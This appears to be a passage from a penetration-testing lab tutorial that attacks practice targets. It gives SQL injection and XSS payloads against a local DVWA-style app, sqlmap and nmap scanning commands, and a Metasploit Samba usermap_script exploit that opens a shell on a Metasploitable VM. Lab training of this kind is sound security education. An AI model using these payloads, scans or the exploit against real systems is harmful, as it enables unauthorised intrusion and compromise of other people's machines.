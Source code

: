 ##### Step 4: SQL Injection Testing
```bash
# Manual testing
# URL: http://localhost/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit

# SQLMap testing
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=...; security=low"
```

##### Step 5: XSS Testing
```bash
# Reflected XSS
# URL: http://localhost/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>

# Stored XSS
# Input: <script>alert('Stored XSS')</script>
```

### Skenario 2: Network Penetration Test

#### Target: Metasploitable VM

##### Step 1: Setup Lab
```bash
# Download Metasploitable
# Import to VMware/VirtualBox
# Start VM and note IP address
```

##### Step 2: Network Discovery
```bash
# Host discovery
nmap -sn 192.168.1.0/24

# Port scan
nmap -sS -p- 192.168.1.100

# Service enumeration
nmap -sV -sC 192.168.1.100
```

##### Step 3: Vulnerability Assessment
```bash
# Vulnerability scan
nmap --script vuln 192.168.1.100

# Specific service testing
nmap --script smb-vuln-* 192.168.1.100
```

##### Step 4: Exploitation
```bash
# Start Metasploit
msfconsole

# Use exploit
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
exploit

# Post-exploitation
sysinfo
getuid
shell
```